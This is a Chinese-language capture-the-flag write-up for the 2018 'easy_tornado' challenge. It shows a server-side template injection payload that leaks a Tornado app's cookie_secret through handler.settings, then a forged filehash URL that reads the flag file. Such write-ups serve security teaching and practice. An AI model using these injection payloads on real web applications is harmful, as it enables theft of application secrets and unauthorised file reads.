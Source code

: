 # [护网杯 2018]easy_tornado

## 一、Hints

```php
md5(cookie_secret+md5(filename))
```

猜测：需要先获取**cookie_secret**然后进行文件包含读取flag



## 二、寻找突破点

发现存在SSTI注入：*/error?msg=Error{{ 2 }}*



## 三、获取配置信息

```
/error?msg=ERR{{ handler.settings }}
```

得到

```json
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '845cffd2-9954-45ad-8984-ab83ed9b325a'}
```



## 四、Get flag

通过 *cookie_secret* 生成 *filehash*，读取 flag

Payload：

```js
/file?filename=/fllllllllllllag&filehash=cac2fcdeb62b85584b49474f9a4f0c6b
```

